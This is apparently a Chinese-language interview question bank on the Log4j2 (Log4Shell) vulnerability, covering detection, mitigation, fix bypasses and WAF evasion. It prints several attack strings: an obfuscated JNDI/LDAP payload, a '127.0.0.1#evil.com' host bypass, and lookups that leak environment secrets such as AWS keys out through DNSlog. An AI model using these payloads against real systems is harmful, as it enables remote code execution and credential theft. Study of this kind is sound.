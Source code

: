 ## Log4j2

### 谈谈Log4j2漏洞（★★）

漏洞原理其实不难，简单来说就是对于`${jndi:}`格式的日志默认执行`JndiLoop.lookup`导致的RCE。日志的任何一部分插入`${}`都会进行递归处理，也就是说`log.info/error/warn`等方法如果日志内容可控，就会导致这个问题。这个漏洞本身不复杂，后续的绕过比较有趣



### Log4j2漏洞的黑盒检测（★）

由于该漏洞的特性，必须要出网才可以检测，例如`dnslog`的方式

在内网中也可不使用`dnslog`而是自行实现伪`JDNI/LDAP`的服务端用于探测



### Log4j2漏洞的白盒检测（★）

检查`pom.xml`或`gradle`中的依赖，是否存在`log4j2-api`和`log4j2-core`小于`2.15.0`则存在漏洞



### Log4j2的紧急修复手段（★★）

在JVM参数中添加`-Dlog4j2.formatMsgNoLookups=true`

系统环境变量中将`LOG4J_FORMAT_MSG_NO_LOOKUPS`设置为`true`

创建`log4j2.component.properties`文件并增加配置`log4j2.formatMsgNoLookups=true`

不重启应用情况下的修复手段参考另一个问题



### 知道Log4j2 2.15.0 RC1修复的绕过吗（★★★）

修复内容限制了协议和HOST以及类型，其中类型这个东西其实没用，协议的限制中包含了`LDAP`等于没限制。重点在于HOST的限制，只允许本地localhost和127.0.0.1等IP。但这里出现的问题是，加入了限制但没有捕获异常，如果产生异常会继续`lookup`所以如果在URL中加入一些特殊字符，例如空格，即可导致异常绕过HOSOT限制，然后`lookup`触发RCE



### Log4j2的两个DOS CVE了解吗（★★）

其中一个DOS是`lookup`本身延迟等待和允许多个标签`${}`导致的问题

另一个DOS是嵌套标签`${}`递归解析导致栈溢出



### Log4j2 2.15.0正式版的绕过了解吗（★★★）

正式版的修复只是在之前基础上捕获了异常。这个绕过本质还是绕HOST限制。使用`127.0.0.1#evil.com`即可绕过，需要服务端配置泛域名，所以#前的127.0.0.1会被认为是某个子域名，而本地解析认为这是127.0.0.1绕过了HOST的限制。但该RCE仅可以在MAC OS和部分Linux平台成功



### Log4j2绕WAF的手段有哪些（★★）

使用类似`${::-J}`的方式做字符串的绕过，还可以结合`upper`和`lower`标签进行嵌套

有一些特殊字符的情况结合大小写转换有巧妙的效果，还可以加入垃圾字符

例如：`${jnd${upper:ı}:ldap://127.0.0.1:1389/Calc}`



### Log4j2除了RCE还有什么利用姿势（★★★）

利用其他的`lookup`可以做信息泄露例如`${env:USER}`和`${env:AWS_SECRET_ACCESS_KEY}`

在`SpringBoot`情况下可以使用`bundle:application`获得数据库密码等敏感信息，不过`SpringBoot`默认不使用`log4j2`

这些敏感信息可以利用`dnslog`外带`${jndi:ldap://${java:version}.xxx.dnslog.cn}`



### 不停止运行程序如何修复Log4j2漏洞（★★★）

利用JavaAgent改JVM中的字节码，可以直接删了`JndiLookup`的功能

有公众号提出类似`Shiro`改`Key`的思路，利用反射把`JndiLookup`删了也是一种办法


### Log4j2调试源码过程中为什么无法在关键处下断点（★★）

（来自于某师傅的反馈）

在最后进入`lookup`时，有一部用到了`try-resources`语法，这种情况下如果对反编译的`class`文件下断点会存在问题

解决方案是下载源码绑定到`IDEA`后在未反编译的`Java`代码中下断点调试


### Log4j2是否存在不出网的利用（★★）

（来自于某师傅的反馈：红队实习面试题）

不可能存在不出网的利用，也就是说不出网情况下不可能`RCE`

由JNDI注入的基本原理可以得知，如果网络无法到达`JNDI Server`那么获取不到数据，无论是`Reference`的方式或者高版本`javaSerializedData`打本地`gadget`或者本地工厂类，任何一种利用方式的前提条件是能够收到数据，而不出网无法获得数据